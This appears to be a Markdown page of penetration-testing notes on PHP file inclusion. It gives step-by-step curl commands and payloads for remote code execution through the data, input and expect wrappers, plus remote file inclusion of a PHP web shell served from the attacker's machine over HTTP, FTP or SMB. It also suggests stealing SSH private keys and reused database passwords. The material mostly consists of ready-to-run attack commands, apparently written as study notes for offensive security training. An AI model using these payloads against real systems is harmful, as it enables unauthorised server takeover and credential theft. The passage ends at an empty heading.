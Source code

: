 ```yaml
---
layout: default
title: File Inclusion
permalink: /Web/RCE/
---
```


# Remote Code Execution
One easy and common method for gaining control over the back-end server is by enumerating user credentials and SSH keys, and then use those to login to the back-end server through SSH or any other remote session.
- We may find the database password in a file like `config.php`, which may match a user's password in case they re-use the same password.
- We can check the `.ssh` directory in each user's home directory, and if the read privileges are not set properly, then we may be able to grab their private key `id_rsa` and use it to SSH into the system.
- There are ways to achieve remote code execution directly through vulnerable functions.

## Wrappers
### Data Wrapper
However, the data wrapper is only available to use if the (allow_url_include) setting is enabled in the PHP configurations. 
<b>Checking:
We can include the PHP configuration file found at (/etc/php/X.Y/apache2/php.ini) for Apache or at (/etc/php/X.Y/fpm/php.ini) for Nginx, where X.Y is your install PHP version.

```
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```
Then:
```
echo '<base64_encoded_string>' | base64 -d | grep allow_url_include
```
Remote Code Execution:
```
echo '<?php system($_GET["cmd"]); ?>' | base64
```
Then in the url bar:
```
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,<base64_encoded_command>
```
Or use curl:
```
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```
### Input Wrapper
- We pass our input to the input wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work.
- The input wrapper also depends on the `allow_url_include` setting, as mentioned previously.
```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```
*Note: To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use $_REQUEST). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. <\?php system('id')?>)*

### Expect Wrapper
Expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server.
<br>Checking is similar as previously:
```
echo '<base64_encoded_string>' | base64 -d | grep expect
```
We may find that a configuraion keyword is used to enable the except module. Then:
```
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

## Remote File Inclusion (RFI)
This allows two main benefits:
- Enumerating local-only ports and web applications (i.e. SSRF).
- Gaining remote code execution by including a malicious script that we host.

Some of the functions that (if vulnerable) would allow RFI:
1. PHP
   - include()/include_once()
   - file_get_contents()
2. Java
   - import
3. .NET
   - @Html.RemotePartial()
   - include

### Verify RFI
- Any remote URL inclusion in PHP would require the `allow_url_include` setting to be enabled (see earlier).
- A more reliable way to determine whether an LFI vulnerability is also vulnerable to RFI is to try and include a URL, and see if we can get its content. At first, we should always start by trying to include a local URL to ensure our attempt does not get blocked by a firewall or other security measures. So, let's use (http://127.0.0.1:80/index.php) as our input string and see if it gets included:
  `http://<SERVER_IP>:<PORT>/index.php?<param>=http://127.0.0.1:80/index.php`<br>
  Furthermore, this could show us that the index.php page did not get included as source code text but got executed and rendered as PHP, so the vulnerable function also allows PHP execution, which may allow us to execute code if we include a malicious PHP script that we host on our machine.
  *Note: It may not be ideal to include the vulnerable page itself (i.e. index.php), as this may cause a recursive inclusion loop and cause a DoS to the back-end server.*

### RCE with RFI
#### HTTP
The first step in gaining remote code execution is creating a malicious script in the language of the web application. We can use a custom web shell we download from the internet. <br>
Example:
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
sudo python3 -m http.server <LISTENING_PORT>
```
Then visit `http://<SERVER_IP>:<PORT>/index.php?<param>=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`.
*Note: We can examine the connection on our machine to ensure the request is being sent as we specified it. For example, if we saw an extra extension (.php) was appended to the request, then we can omit it from our payload*

#### FTP
This may also be useful in case http ports are blocked by a firewall or the http:// string gets blocked by a WAF.
```
sudo python -m pyftpdlib -p 21
```
Then visit `http://<SERVER_IP>:<PORT>/index.php?<param>=ftp://<OUR_IP>/shell.php&cmd=id`.

#### SMB
If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the allow_url_include setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion. This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.

```
impacket-smbserver -smb2support share $(pwd)
```
Then visit `http://<SERVER_IP>:<PORT>/index.php?<param>=\\<OUR_IP>\share\shell.php&cmd=whoami`
<br>*Note: we must note that this technique is more likely to work if we were on the same network, as accessing remote SMB servers over the internet may be disabled by default*

### LFI and File Uploads

